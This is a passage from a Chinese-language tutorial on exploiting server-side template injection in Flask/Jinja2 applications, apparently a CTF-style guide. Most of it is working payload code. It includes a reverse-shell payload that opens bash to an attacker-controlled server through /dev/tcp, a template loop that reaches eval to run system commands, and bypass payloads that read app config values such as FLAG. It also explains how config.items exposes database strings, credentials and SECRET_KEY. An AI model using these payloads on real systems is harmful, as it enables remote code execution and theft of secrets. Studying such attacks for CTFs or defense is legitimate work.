 ##### **反弹shell**

```javascript
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('bash -i >& /dev/tcp/你的服务器地址/端口 0>&1').read()
```

这个 Payload 不能直接放在 URL 中执行 , 因为 `&` 的存在会导致 URL 解析出现错误 可以使用 BurpSuite 等工具构造数据包再发送

![](https://ask.qcloudimg.com/http-save/yehe-8581257/2a7321a2aee82c4f143e92ebf5bb70a9.png)

##### **其他**

- `request.environ` 一个与服务器环境相关的对象字典 . 访问该字典可以拿到很多你期待的信息

![](https://ask.qcloudimg.com/http-save/yehe-8581257/3bd78a4499adaf9d23080bdc602f42f4.png)

- `config.items` 一个类字典的对象 , 包含了所有应用程序的配置值 在大多数情况下 , 它包含了比如[数据库](https://cloud.tencent.com/solution/database?from_column=20065&from=20065)链接字符串 , 连接到第三方的凭证 , SECRET_KEY等敏感值

![](https://ask.qcloudimg.com/http-save/yehe-8581257/5f234f37d492857f605d0530b3c3f196.png)

- 一个小脚本

```javascript
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}         //poppen的参数就是要执行的命令
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

### **7、一些绕过**

对一些过滤的绕过方法

##### **过滤了小括号**

用python的内置函数

- get_flashed_messages()
- url_for()

payload

```javascript
{{url_for.__globals__}}
{{url_for.__globals__['current_app'].config['FLAG']}}

{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```
